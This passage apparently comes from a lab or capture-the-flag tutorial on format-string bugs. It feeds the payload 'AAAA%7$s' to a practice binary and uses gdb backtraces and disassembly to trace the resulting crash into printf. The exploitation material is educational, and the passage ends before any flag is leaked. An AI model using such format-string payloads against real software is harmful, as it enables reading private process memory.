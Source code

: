 We can start by doing a quick test that tries to read the string from the memory
address 'AAAA' aka 0x41414141, that of course will break the program:
```sh
$ echo 'AAAA%7$s' | ./fsv-global-read
flag is at 0x5657a008
Segmentation fault (core dumped)
```

We can see that the program was stopped due to a segmentation fault, surely
caused by our attempt to read from `0x41414141`, an invalid memory
address. Let's be sure by checking it with gdb.

We start the program and provide the input by redirecting our command with
`< <(echo 'AAAA%7$s')` redirection:
```
$ gdb -q ./fsv-global-read
Reading symbols from ./fsv-global-read...
(No debugging symbols found in ./fsv-global-read)
(gdb) r < <(echo 'AAAA%7$s')
Starting program: /home/ada/fsv-global-read < <(echo 'AAAA%7$s')
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
flag is at 0x56557008

Program received signal SIGSEGV, Segmentation fault.
__GI_strlen () at ../sysdeps/i386/i586/strlen.S:50
50	../sysdeps/i386/i586/strlen.S: No such file or directory.
```

The program was stopped by the segmentation fault signal again, so let's inspect
what is happening. A good practice to troubleshoot programs is to print the
backtrace, that is the stack of calls until the position we are, the position of
the failure:
```
(gdb) backtrace
#0  __GI_strlen () at ../sysdeps/i386/i586/strlen.S:50
#1  0xf7ddb69b in printf_positional (s=s@entry=0xf7f9bda0 <_IO_2_1_stdout_>,
    format=format@entry=0xffffcfcc "AAAA%7$s\n", readonly_format=readonly_format@entry=0,
    ...stripped...
#2  0xf7ddbf4d in __vfprintf_internal (s=0xf7f9bda0 <_IO_2_1_stdout_>,
    format=0xffffcfcc "AAAA%7$s\n",
    ...stripped...
#3  0xf7dd1f85 in __printf (format=0xffffcfcc "AAAA%7$s\n") ....
#4  0x56556212 in main ()
```

We can appreciate that the segmentation fault was produced inside the `printf`
function, in the invocation of one of its auxiliar functions, that receives by
parameter our format string. Let's now inspect the exact instruction that caused
the failure:
```
(gdb) set disassembly-flavor intel
(gdb) disass
Dump of assembler code for function __GI_strlen:
...stripped...
   0xf7e3466d <+13>:	jp     0xf7e34686 <__GI_strlen+38>
=> 0xf7e3466f <+15>:	cmp    BYTE PTR [eax],dh
   0xf7e34671 <+17>:	je     0xf7e34716 <__GI_strlen+182>
...stripped...
```
